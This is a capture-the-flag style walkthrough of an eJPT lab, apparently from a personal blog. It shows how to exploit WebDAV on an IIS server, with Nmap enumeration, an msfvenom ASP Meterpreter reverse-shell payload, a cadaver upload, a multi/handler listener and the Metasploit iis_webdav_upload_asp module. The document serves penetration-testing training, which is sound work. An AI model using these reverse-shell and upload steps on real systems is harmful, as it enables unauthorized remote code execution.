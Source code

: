 ```yaml
---
title: "eJPT - Windows IIS Server WebDav Metasplit Walkthrough & Insights"
date: 2025-03-31 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]

---
```


---

## Lab Environment

In this lab environment, you will be provided with GUI access to a Kali machine. The target machine will be accessible at **demo.ine.local**.

**Objective:** Exploit the WebDAV service and retrieve the flag!

**The following username and password may be used to access the service:**

**Credentials:**
```
Username: bob
Passowrd: password_123321
```
# Tools

- Metasploit
- DAVTest
- Cadaver

Let’s with the lab

---

### Video Walkthrough's

{% include embed/youtube.html id='49SaqHOj_Pc' %}


### Service Enumeration using Nmap:

Started with Nmap to discovery the services that are running on the target

command

```bash
nmap -sV -sC demo.ine.local
```

 Breakdown:

- `-sV`: Enables version detection, which identifies the software version running on open ports.
- `-sC`: Runs default scripts (`default` category from NSE - Nmap Scripting Engine).
- `demo.ine.local`: The target domain or hostname.
![alt text](</assets/img/Pasted image 20250331121134.png>)

![alt text](</assets/img/Pasted image 20250331121152.png>)
Narrowed the Nmap scan to the specific port then also used a script that extract some more information form the specific port and it’s services.

```bash
nmap -sV -sC -p 80 --script=http-enum demo.ine.local
```
![alt text](</assets/img/Pasted image 20250331121229.png>)

![alt text](</assets/img/Pasted image 20250331121308.png>)



### Creating a asp shell using msfconsole

![alt text](</assets/img/Pasted image 20250331121345.png>)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4444 -f asp > shell.asp
```

**Breakdown:**

- `msfvenom` → A payload generator in **Metasploit**, used to create shellcodes, backdoors, and exploits.
- `-p windows/meterpreter/reverse_tcp` → Specifies the **payload**:
    - `windows/meterpreter/reverse_tcp` → A **Meterpreter** reverse shell payload for Windows.
    - `reverse_tcp` → This means the target machine will **connect back** to the attacker's machine (LHOST).
- `LHOST=<YOUR_IP>` → The attacker's **IP address** (listener machine where the reverse shell will connect).
- `LPORT=4444` → The **port number** the shell will connect back to (default: `4444`).
- `-f asp` → Specifies the **format** of the payload (`asp` for an Active Server Page web shell).
- `> shell.asp` → Saves the generated payload as **`shell.asp`** (which can be uploaded to a vulnerable web server).
### Uploading asp file using cadaver

![alt text](</assets/img/Pasted image 20250331121400.png>)


```bash
cadaver <http://demo.ine.local/webdav>
```

**Breakdown:**
- `cadaver` → A **command-line WebDAV client** used to interact with Web Distributed Authoring and Versioning (**WebDAV**) servers.
- `http://demo.ine.local/webdav` → The **URL of the WebDAV server** you want to connect to.
Start the reverse handler for it

#### **Common Commands in Cadaver (Once Connected)**

After connecting, you can use the following commands:

|Command|Description|
|---|---|
|`ls`|List files in the current directory|
|`cd <dir>`|Change directory|
|`put <file>`|Upload a file to the server|
|`get <file>`|Download a file from the server|
|`delete <file>`|Remove a file from the server|
|`mkdir <dir>`|Create a directory on the WebDAV server|
|`rmdir <dir>`|Remove a directory|
|`exit` or `quit`|Close the connection|

Then run the asp file. and we got the access

![alt text](</assets/img/Pasted image 20250331121445.png>)

```bash
service postgresql start && msfconsole 
use multi/handler/
set payload windows/meterpreter/reverse_tcp
set lhost
set lport 
run
```
**Breakdown:**

- `service postgresql start` → Starts the **PostgreSQL database**, which Metasploit uses to store exploits and sessions.
- `&&` → Ensures that **Metasploit Framework (`msfconsole`)** starts **only if** PostgreSQL starts successfully.
- `msfconsole` → Launches the **Metasploit Framework Console** for running exploits and managing sessions.
- - `use multi/handler` → Loads the **multi-handler** module, which is used to receive incoming connections from exploited machines.
- `/` at the end is unnecessary; it should just be `use multi/handler`.
- - `set payload windows/meterpreter/reverse_tcp` → Configures the listener to handle *Windows Meterpreter reverse shell connections**.
- `reverse_tcp` → The target system will **connect back** to the attacker's system.
- - `set LHOST <YOUR_IP>` → Specifies the **attacker's IP address** (where the reverse shell will connect).
- `set LPORT <YOUR_PORT>` → Defines the **port number** to listen for incoming connections (default: `4444`).
- - Starts the listener to **wait for incoming connections** from the target machine.
- Once the target **executes the payload**, the attacker **gains a Meterpreter session**.

![alt text](</assets/img/Pasted image 20250331121502.png>)
---

## Here the version 2 for the same lab!

This version of Metasploit leverages msfconsole modules to automate and simplify the exploitation process, making it much easier for the end user (attacker).
- **Category**: Exploit Module
- **Purpose**: Uploads a malicious ASP shell to an IIS WebDAV-enabled server, allowing remote command execution.

### Starting the msfconsole

```bash
service postgresql start && msfconsole
```

```bash
serach iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set httpusername 
set httppassword
set rhost
set path
run
```

- **Search for IIS Upload Exploits** – Finds available Metasploit modules for exploiting IIS file uploads.
- **Select the IIS WebDAV Upload Exploit** – Loads an exploit that allows uploading malicious ASP files to a WebDAV-enabled server.
- **Set Authentication Credentials (If Required)** – Provides login details if the server requires authentication.
- **Define the Target Host** – Specifies the IIS server’s IP address.
- **Set the Upload Path** – Chooses the directory where the file will be uploaded.
- **Execute the Exploit** – Uploads the ASP shell and attempts to gain remote code execution on the server.
